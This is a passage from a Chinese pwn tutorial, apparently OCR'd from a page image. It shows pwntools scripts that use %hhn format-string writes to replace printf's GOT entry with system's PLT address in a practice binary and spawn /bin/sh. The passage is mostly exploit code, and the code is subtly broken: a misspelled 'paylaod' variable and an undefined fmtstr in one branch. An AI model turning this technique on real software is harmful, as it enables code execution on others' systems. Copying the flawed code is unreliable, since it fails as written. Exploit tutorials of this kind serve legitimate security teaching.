 在实际环境中，一次性传输如此大量的数据可能会导致网络卡顿甚至中断连接。因此，我们必须换一种写exp的方法。
我们知道，在64位下有%lld, %llx等方式来表示四字(qword)长度的数据，而对称地，我们也可以使用%hd, %hhx这样的方式来表示字(word)和字节(byte)长度的数据，对应到%n上就是%hn, %hhn。为了防止修改的地址有误导致程序崩溃，我们仍然需要一次性把got表中的printf项改掉，因此使用%hhn时我们就必须一次修改四个字节。
所以构造新的脚本

```python
    from pwn import *

    def fmt(prev, word, index):
        if prev < word:
            result = word - prev
            fmtstr = "%" + str(result) + "c"
        elif prev == word:
            result = 0
        else:
            result = 256 + word - prev
            fmtstr = "%" + str(result) + "c"
        fmtstr += "%" + str(index) + "$hhn"
        return fmtstr

    def fmt_str(offset, size, addr, target):
        payload = ""
        for i in range(4):
            if size == 4:
                payload += p32(addr + i)
            else:
                payload += p64(addr + i)
        prev = len(payload)
        for i in range(4):
            payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
            prev = (target >> i * 8) & 0xff
        return payload
    def forc():
        p = process('./format_x86')
        p.recv()
        payload = fmt_str(5,4,0x08049778,0x08048320)
        p.send(payload)
        p.send('/bin/sh')
        p.interactive()
    forc()
```

或者分别计算:

```python
    printf_got = 0x08049778
    system_plt = 0x08048320

    payload = p32(printf_got)
    payload += p32(printf_got+1)
    payload += p32(printf_got+2)
    payload += p32(printf_got+3)

    paylaod += "%"
    paylaod += str(0x20-16)     # 前面已经输出16个字符（四个p32()），所以要减16
    payload += "c%5$hhn"

    payload += "%"
    payload += str(0x83-0x20)   # 前面已经输出0x20个字符，所以要减0x20
    payload += "c%6$hhn"

    payload += "%"
    payload += str(0x104-0x83) # 前面已经输出了0x83个字节，因此我们需要输出到0x04+0x100=0x104字节（0x100=256），截断后变成0x04
    payload += "c%7$hhn"

```